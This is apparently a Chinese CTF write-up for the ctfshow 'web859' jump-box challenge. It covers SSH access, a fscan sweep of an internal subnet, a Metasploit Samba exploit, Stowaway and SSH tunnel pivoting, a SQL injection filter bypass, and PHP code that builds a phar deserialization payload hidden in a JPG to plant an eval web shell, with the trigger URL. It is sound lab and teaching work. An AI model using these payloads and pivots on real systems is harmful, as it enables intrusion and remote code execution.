+++
title = "ctfshowweb859_有跳板机"
slug = "ctfshow-web859-with-jumpbox"
description = "ssh搭建代理学习"
date = "2025-03-19T08:49:53"
lastmod = "2025-03-19T08:49:53"
image = ""
license = ""
categories = ["ctfshow"]
tags = ["内网渗透"]
+++

## 外网

密码可以猜到是ctfshow，链接上来之后先把shell变成交互的，并且发现是普通用户，那用权限新开一个shell，再交互一下

```
sudo -s
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



并且发现这里面根本找不到flag，把fscan传上去，扫一下

```
curl http://156.238.233.9/fscan
```

结果一看不可以，回头想起来，环境不出网，那就scp给传上去吧

```
scp -P 28110 fscan ctfshow@pwn.challenge.ctf.show:/tmp

cd /tmp
ifconfig

./fscan -h 172.2.190.4/24

┌──────────────────────────────────────────────┐
│    ___                              _        │
│   / _ \     ___  ___ _ __ __ _  ___| | __    │
│  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /    │
│ / /_\\_____\__ \ (__| | | (_| | (__|   <     │
│ \____/     |___/\___|_|  \__,_|\___|_|\_\    │
└──────────────────────────────────────────────┘
      Fscan Version: 2.0.0

[2025-03-19 09:10:00] [INFO] 暴力破解线程数: 1
[2025-03-19 09:10:00] [INFO] 开始信息扫描
[2025-03-19 09:10:00] [INFO] CIDR范围: 172.2.190.0-172.2.190.255
[2025-03-19 09:10:00] [INFO] 生成IP范围: 172.2.190.0.%!d(string=172.2.190.255) - %!s(MISSING).%!d(MISSING)
[2025-03-19 09:10:00] [INFO] 解析CIDR 172.2.190.4/24 -> IP范围 172.2.190.0-172.2.190.255
[2025-03-19 09:10:00] [INFO] 最终有效主机数量: 256
[2025-03-19 09:10:00] [INFO] 开始主机扫描
[2025-03-19 09:10:00] [SUCCESS] 目标 172.2.190.4     存活 (ICMP)
[2025-03-19 09:10:00] [SUCCESS] 目标 172.2.190.1     存活 (ICMP)
[2025-03-19 09:10:00] [SUCCESS] 目标 172.2.190.5     存活 (ICMP)
[2025-03-19 09:10:01] [SUCCESS] 目标 172.2.190.6     存活 (ICMP)
[2025-03-19 09:10:01] [SUCCESS] 目标 172.2.190.7     存活 (ICMP)
[2025-03-19 09:10:01] [SUCCESS] 目标 172.2.190.2     存活 (ICMP)
[2025-03-19 09:10:01] [SUCCESS] 目标 172.2.190.3     存活 (ICMP)
[2025-03-19 09:10:03] [INFO] 存活主机数量: 7
[2025-03-19 09:10:03] [INFO] 有效端口数量: 233
[2025-03-19 09:10:04] [SUCCESS] 端口开放 172.2.190.5:80
[2025-03-19 09:10:04] [SUCCESS] 端口开放 172.2.190.4:22
[2025-03-19 09:10:04] [SUCCESS] 端口开放 172.2.190.6:139
[2025-03-19 09:10:04] [SUCCESS] 端口开放 172.2.190.6:445
[2025-03-19 09:10:04] [SUCCESS] 端口开放 172.2.190.5:9000
[2025-03-19 09:10:04] [SUCCESS] 服务识别 172.2.190.4:22 => [ssh] 版本:8.2p1 Ubuntu 4ubuntu0.5 产品:OpenSSH 系统:Linux 信息:Ubuntu Linux; protocol 2.0 Banner:[SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.5.]
[2025-03-19 09:10:09] [SUCCESS] 服务识别 172.2.190.5:9000 => 
[2025-03-19 09:10:09] [SUCCESS] 服务识别 172.2.190.5:80 => [http] 版本:1.18.0 产品:nginx
[2025-03-19 09:11:04] [SUCCESS] 服务识别 172.2.190.6:139 => 
[2025-03-19 09:11:04] [SUCCESS] 服务识别 172.2.190.6:445 => 
[2025-03-19 09:11:04] [INFO] 存活端口数量: 5
[2025-03-19 09:11:04] [INFO] 开始漏洞扫描
[2025-03-19 09:11:04] [INFO] 加载的插件: ms17010, netbios, smb, smb2, smbghost, ssh, webpoc, webtitle
[2025-03-19 09:11:04] [SUCCESS] 网站标题 http://172.2.190.5        状态码:200 长度:2880   标题:欢迎登陆CTFshow文件管理系统
[2025-03-19 09:11:04] [SUCCESS] NetBios 172.2.190.6     oa                                  Windows 6.1
[2025-03-19 09:11:04] [INFO] 系统信息 172.2.190.6 [Windows 6.1]
[2025-03-19 09:17:59] [SUCCESS] 扫描已完成: 10/10
```

`172.2.42.6`开启了139和445端口
139端口是为‘NetBIOS SessionService’提供的，主要用于提供windows文件和打印机共享以及UNIX中的Samba服务。445端口也用于提供windows文件和打印机共享，在内网环境中使用的很广泛。这两个端口同样属于重点攻击对象，139/445端口曾出现过许多严重级别的漏洞。下面剖析渗透此类端口的基本思路。
（1）对于开放139/445端口的主机，一般尝试利用溢出漏洞对远程主机进行溢出攻击，成功后直接获得系统权限。利用msf的ms-017永恒之蓝。
（2）对于攻击只开放445端口的主机，黑客一般使用工具‘MS06040’或‘MS08067’.可使用专用的445端口扫描器进行扫描。NS08067溢出工具对windows2003系统的溢出十分有效，工具基本使用参数在cmd下会有提示。
（3）对于开放139/445端口的主机，黑客一般使用IPC$进行渗透。在没有使用特点的账户和密码进行空连接时，权限是最小的。获得系统特定账户和密码成为提升权限的关键了，比如获得administrator账户的口令。
（4）对于开放139/445端口的主机，可利用共享获取敏感信息，这也是内网渗透中收集信息的基本途径。

因为本地有msf的安装包，所以这里不用搭建代理，安装之后直接用msf打一下

```
msfconsole
use exploit/linux/samba/is_known_pipename
set rhost 172.2.190.6
exploit 
```



由于靶机不出网，所以需要搭建一个正向代理，我们把stowaway传上去

```
scp -P 28110 linux_x64_agent ctfshow@pwn.challenge.ctf.show:/tmp

chmod +x linux_x64_agent
./linux_x64_agent -l 9999 -s 123
```

然后在自己的服务器上面运行

```
./linux_x64_admin -c 172.2.190.4:9999 -s 123
```

## 内网代理搭建

貌似没有成功，用ssh来搭建

```
ssh -L 8085:172.2.190.5:80 ctfshow@pwn.challenge.ctf.show -p 28110
```



## 内网getshell



这个命令做的就是把`172.2.190.5:80`的流量转发到本地的8085端口，所以我们访问本地的8085就有web服务了，源码泄露，拿到代码



直接插入，进行查询，但是



过滤了部分东西，我之前以为没啥用这个，后面发现这些url编码在sql里面都用不了，



在这里发现email没被用，那注入试试？

```
'union/**/select/**/1--+@qq.com
```

这样子的payload可以绕过，但是始终没有回显，回显发现`--`不能注释要用`#`

```
'union/**/select/**/1#@qq.com

'union/**/select/**/username/**/from/**/user#@qq.com
'union/**/select/**/password/**/from/**/user#@qq.com
```

表什么的都不好查，直接猜，`users`和`user`，最后查出`ctfshow\ctfshase????`

进去之后可以上传文件，看代码，发现可以打phar反序列化





只要我们在email里面插入恶意代码，把exit闭合了，最后的写入语句就是这样

```
file_put_contents("../mail_cache/cache.php","<?php exit('你好，下面是你的重置密码链接，请复制到浏览器地址栏打开.http://xxx.com/?token=xxxx&email='.eval(\$_POST[1]))//');?>");
```

```php
<?php
class action{
    private $email="'.eval(\$_POST[1]))//";
}
@unlink("shell.phar");
$a=new action();
$phar = new Phar("shell.phar");
$phar->startBuffering();
$phar->setMetadata($a);
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar->addFromString("a.txt", "111");
$phar->stopBuffering();
?>
```



这里进行触发，把phar文件后缀改一下，但是发现不能上传，好像是会检测内容，那要混在照片里面

```php
<?php
class action{
    private $email="'.eval(\$_POST[1]))//";
}
@unlink("shell.phar");
$a=new action();
$phar = new Phar("shell.phar");
$phar->startBuffering();
$phar->setMetadata($a);
$phar -> setStub(file_get_contents('SU.jpg').'<?php __HALT_COMPILER();?>');
$phar->addFromString("a.txt", "111");
$phar->stopBuffering();
?>
```



触发就好了

```
http://127.0.0.1:8085/api/index.php?a=view

file=phar:///var/www/html/ckfinder/userfiles/images/shell.jpg
```

访问`/mail_cache/cache.php`，但是文件不能覆盖，我第一次错了，就要重开了，终于成功了

## ssh搭建多层代理

条件是要知道ssh的密码



这次的环境大概就是这样，但是因为题目直接给了vps2的链接方式，所以代理的时候省了很多事情，大概就是这样子，我觉得非常麻烦的就是这个流量要一个一个进行转发，命令如下，在vps1运行命令

```
ssh -L 9383:172.2.136.5:80 root@vps2_ip -p vps2_port
```

这里相当于利用vps2为跳板机，把Nday1的流量转发到了可控vps1上的9383端口，在攻击机上面运行

```
ssh -L 8086:127.0.0.1:9383 root@vps1_ip -p vps1_port(ssh的端口)
```

这样子就可以把vps1的9383端口转发到攻击机的8086端口了

---

突发奇想，并且和**Base0x!?0e**里面的师傅们讨论了一下，没想到也就是2024年的长城杯(广州)的环境，如图



在vps1上面运行

```
./linux_x64_agent -l 9999 -s 123
```

在Windows本机上面运行

```
.\windows_x64_admin.exe -c vps1:9999 -s 123
use 0 
listen
1
1234
```

在vps2上面运行

```
./linux_x64_agent -c vps1:1234 -s 123 --reconnect 8
```

就搞好了



总结：**先一层正向后一层反向**，如果更深的话，后面的也是反向

## fix

有两个部分，但是第一个msf打的那个，只能升级版本了，而后台getshell的这里，我们直接选择把email也给加上过滤函数就可以了
